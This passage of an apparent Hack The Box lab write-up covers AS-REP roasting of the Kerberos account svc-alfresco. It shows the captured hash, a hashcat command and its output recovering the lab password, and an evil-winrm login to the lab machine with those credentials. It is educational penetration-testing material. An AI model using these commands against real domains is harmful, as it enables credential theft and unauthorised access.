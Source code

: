 ```
$krb5asrep$23$svc-alfresco@HTB:0273c379133236be5ba7f7309284f5df$3512e1a3c81e490f1f26b229fea159ad77c8aec0726086b495744f5c993fffcbab6eb6f13ddafdbc289be43de14bf85946e09987f63bec380dc44422c53d96169e52655ba91554411cfc0c5b179bcf81f778fb7ed199b1c319463167fe5efc94911a8b9bc06a1d54a295998408c8ec4738e53fdbd2afcf8919636f8092eba5edccc570f8818dc15c35ad3aa0868e507305ab6a0226f57b332aa9b7293fdec3ba148cc335e1250611590a1b18e94dcc55b0051bf9092795a4545023daa1e1399e780c79eaeb5ddad38b6394c4da303986ceb2990cf6b84ea0bc694b7523654d8c

```

*AS-REP Roasting is an attack against Kerberos for user accounts that do not require preauthentication.  This is explained in pretty thorough detail in Harmj0y’s post here, so I’ll focus on summarizing it.  Pre-authentication is the first step in Kerberos authentication, and is designed to prevent brute-force password guessing attacks. 
During preauthentication, a user will enter their password which will be used to encrypt a timestamp and then the domain controller will attempt to decrypt it and validate that the right password was used and that it is not replaying a previous request.  From there, the TGT will be issued for the user to use for future authentication.  If preauthentication is disabled, an attacker could request authentication data for any user and the DC would return an encrypted TGT that can be brute-forced offline*

Reference: https://stealthbits.com/blog/cracking-active-directory-passwords-with-as-rep-roasting/


## Cracking 
Now with the .kerb file obtained, we can carry out cracking my hashcat 

```
hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$krb5asrep$23$svc-alfresco@HTB:0273c379133236be5ba7f7309284f5df$3512e1a3c81e490f1f26b229fea159ad77c8aec0726086b495744f5c993fffcbab6eb6f13ddafdbc289be43de14bf85946e09987f63bec380dc44422c53d96169e52655ba91554411cfc0c5b179bcf81f778fb7ed199b1c319463167fe5efc94911a8b9bc06a1d54a295998408c8ec4738e53fdbd2afcf8919636f8092eba5edccc570f8818dc15c35ad3aa0868e507305ab6a0226f57b332aa9b7293fdec3ba148cc335e1250611590a1b18e94dcc55b0051bf9092795a4545023daa1e1399e780c79eaeb5ddad38b6394c4da303986ceb2990cf6b84ea0bc694b7523654d8c:s3rvice
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB:0273c379133236be5ba7...654d8c
Time.Started.....: Fri Aug 13 11:52:15 2021, (3 secs)
Time.Estimated...: Fri Aug 13 11:52:18 2021, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1175.0 kH/s (7.18ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4096000/14344385 (28.55%)
Rejected.........: 0/4096000 (0.00%)
Restore.Point....: 4079616/14344385 (28.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: s9039554h -> s/nd/0s

Started: Fri Aug 13 11:51:49 2021
Stopped: Fri Aug 13 11:52:20 2021

Evil-winrm to get the initial foothold of the machine
./evil-winrm.rb -i 10.10.10.161 -u svc-alfresco -p s3rvice
```